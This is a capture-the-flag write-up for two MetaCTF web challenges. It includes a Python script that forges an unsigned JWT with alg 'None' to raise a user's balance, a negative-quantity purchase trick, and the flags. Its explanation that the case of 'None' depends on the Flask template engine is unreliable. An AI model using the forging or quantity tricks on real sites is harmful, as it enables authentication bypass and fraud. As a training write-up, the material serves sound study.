







## > Horse (Web)



pretty easy. just inspect element, the flag is in the `<head>` tag.



flag: `MetaCTF{y0u_g0t_4_l1c3n5e_f0r_th4t_h0rs3_m4t3}`

## > None Shall Pass (Web)

Challenge Description: `We built a cool website that uses JWT for authentication. Simple and safe, right? Or is it...?`




yes, there's a jwt in the cookies.



Opening the jwt in jwt.io:



The title of the challenge is called None Shall Pass, suggesting that a None header (alg: none) vulnerability is present.

The header 'None' must be specified instead of 'none' because the template engine is Flask.

```python
import json, base64

def b64url_encode(b: bytes) -> str:
    return base64.urlsafe_b64encode(b).decode().rstrip('=')

header = {"alg":"None","typ":"JWT"}
payload = {
  "user_id": 364,
  "username": "aidanvoidout",
  "balance": 100000000.0,
  "role": "user",
  "exp": 1761556787
}

h_b64 = b64url_encode(json.dumps(header, separators=(',',':')).encode())
p_b64 = b64url_encode(json.dumps(payload, separators=(',',':')).encode())

token = f"{h_b64}.{p_b64}."
print(token)
```



flag: `MetaCTF{JWT_N0n3_4lg_3xpl01t}`

### alternate solve (probably unintended)

use burp suite and change the quantity to -1, this underflows and lets you buy it for free

